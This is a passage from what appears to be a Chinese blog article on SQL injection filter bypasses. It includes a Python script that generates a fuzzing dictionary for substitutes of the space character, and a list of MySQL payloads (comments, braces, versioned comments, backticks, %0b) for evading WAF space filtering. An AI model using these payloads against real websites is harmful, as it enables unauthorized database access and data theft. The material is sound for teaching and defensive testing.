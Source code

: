 ```python
with open(save_file,'wb') as file:
	for i in range(0,52):
		for n in word:
			tar = '0' + n[i] + '\n'
			file.write(tar)
			for a in num:
				res = str(pre) + str(a) + n[i] + '\n'
				print res	
				file.write(res)
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc74uxy1j30uz0gcwgf.jpg)

这里以空格为例子
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc7dugsuj30lv0auaal.jpg)
对这里的20进行爆破，加载上面生成的字典
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc7kt8jej30kg0eedgl.jpg)
这里可以看到%0a-d都可以代替进行绕过

### 2 其他的一些姿势（还是以空格为例子）
```mysql
payload
select{user table_name}from{users information_schema.tables};
返回全部表
符号   + /**/  () 0x90等
select .1from users;
/*!50000select*/user from users;
select 0e1from users;
select version%0b()
select`version()`     
select`version`%0b()
mysql> select`user`from`users`;
+-------+
| user  |
+-------+
| admin |
| test  |
| sp4rk |
| qwer  |
+-------+
4 rows in set (0.00 sec)
```
## 0x05 参考文章
[sql注入](http://116.62.23.74/index.php/2018/05/29/sql-injection/)
[突破延迟注入和盲注速度限制，利用dns注入快速获取数据](https://blog.csdn.net/qq_27446553/article/details/51794326)
[为什么感觉在实际的测试中ORDER BY注入的比例变高了](http://www.yulegeyu.com/2017/04/04/为什么感觉在实际的测试中ORDER-BY注入的比例变高了/)
